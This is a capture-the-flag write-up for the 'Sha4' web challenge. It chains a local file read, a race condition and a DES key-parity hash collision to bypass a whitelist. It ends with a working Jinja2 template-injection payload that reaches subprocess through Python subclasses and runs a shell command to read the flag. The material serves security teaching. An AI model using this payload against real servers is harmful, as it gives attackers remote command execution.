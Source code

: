 # Sha4 (web, 300pts, 16 solves)

> tl;dr
> local file read, race condition, hash collision, template injection

![scr1](scr1.png)


Start off by noticing that we have a local file read via the second form:

![scr2](scr2.png)

Lets find out where the application root is: `etc/apache2/sites-enabled/000-default.conf`

```
<VirtualHost *:80>
	ServerName sha4

	WSGIDaemonProcess sha4 user=www-data group=www-data threads=8 request-timeout=10
	WSGIScriptAlias / /var/www/sha4/sha4.wsgi

	
    <directory /var/www/sha4>
		WSGIProcessGroup sha4
		WSGIApplicationGroup %{GLOBAL}
		WSGIScriptReloading On
		Order deny,allow
		Allow from all
	</directory>

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined


</VirtualHost>
```

Great!


[file:////var/www/sha4/server.py](server.py)

[file:////var/www/sha4/sha4.py](sha4.py)



``` python
  out_text = str(decode(ber))
  open(f, "w").write(out_text)

  if is_unsafe(out_text):
    return render_template_string(unsafe)

  commentt = comment % open(f).read()
  return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))
```

Is vulnerable to race condition and template injection.
We can first send a valid input that passes the `is_unsafe` check and then a malicious input that injects the template.
The contents of the file will be overwritten for the first execution so it will actually evaluate the malicious payload.

But in order to do that we need 2 different inputs that produce the same `hash`:

``` python
def hash(x):
  h0 = "SHA4_IS_"
  h1 = "DA_BEST!"
  keys = unpad(x)
  for key in keys:
    h0 = DES.new(key).encrypt(h0)
    h1 = DES.new(key).encrypt(h1)
  return h0+h1
```


`unpad` function works as expected, it takes 7 8-bit bytes and output 8 7-bit bytes, pic rel:

![scr3](scr3.png)

DES.encrypt was the problem. 
DES, although takes 8 bytes as key, is not using all 64 bits, but only 56.
It ignores lsb of each byte.
This means we can actually get identical encryption results as long as the key differs only on lsb.
So we could perform bitflips to bypass the whitelist with one of the payloads, while the other payload with malicious injection would have the same hash.


After generating a valid input pair we simply smash them agains the server and hope to get the flag via usual template injection:

```python
{{3*3*3*3}}
{% set loadedClasses = " ".__class__.__mro__[2].__subclasses__() %}
{% for loadedClass in loadedClasses %} {% if loadedClass.__name__ == "catch_warnings".strip() %}
	{% set builtinsReference = loadedClass()._module.__builtins__ %}
	{% set os = builtinsReference["__import__".strip()]("subprocess".strip()) %}
		{{ os.check_output("cat sha4/flag_bilaabluagbiluariglublaireugrpoop".strip(), shell=True) }}
	{% endif %}
{% endfor %}
```

[full script](script.py)